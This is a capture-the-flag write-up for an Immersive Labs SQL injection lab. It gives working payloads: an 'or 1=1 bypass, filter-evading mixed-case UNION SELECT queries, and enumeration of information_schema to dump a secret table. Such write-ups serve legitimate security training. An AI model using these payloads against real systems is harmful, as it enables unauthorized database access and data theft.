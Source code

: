 ```yaml
---
date: 2025-02-05
categories: [CTF, ImmersiveLabs]
title: "IML - SQLi Basics - Demonstrate your skills"
tags: ['rce', 'sql', 'sqli']

description: "SQLi Basics - Demonstrate you - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - SQLi Basics - Demonstrate your skills

- username = vulnerable parameter

![image1](../resources/8688020e25a14c42a19c8930ea91d51a.png)

- Cannot use union select because of filters (need to use filter evasion)


![image2](../resources/e82a946f4e574b8bb3453563a3725dd7.png)

- Not breaking with ' or "

- Try using 'or 1=1 -- -


![image3](../resources/869510fc01e94129ab9e28345d7203d4.png)

That worked

- I tried putting too MANY union select statements in, to start with, but the website doesn't break.
(As we found out with trying the ' and ")

- But we know that the search field only displays ONE column output.
So the correct SQLi statement is using:

```bash
'unioN SelecT 1 -- -

```

![image4](../resources/00a91d979e544379b9047796e77ee75b.png)

- Now just replace the **1** with values ie.

```bash
'unioN SelecT database() -- -

```

![image5](../resources/1a7ef064182441c089716f08b1d252a1.png)

```bash
'unioN SelecT version() -- -

```

![image6](../resources/be7a80ac98bd40c384e9c91aaf6d290f.png)

```bash
'unioN SelecT group_concat(table_name) from information_schema.tables where table_schema="user_db" -- -

```

![image7](../resources/41d9fa780c4a48e488086829b2f3a39e.png)

```bash
'unioN SelecT group_concat(column_name) from information_schema.columns where table_name="secret_table" -- -

```

![image8](../resources/18e3539342ad4375a1b85f0da831ba21.png)

```bash
'unioN SelecT group_concat(name,0x2b,value) from secret_table -- -

```
**0x2b is a delimiter(+)**


![image9](../resources/14b91aa84bb64b70ac202606038c4c36.png)
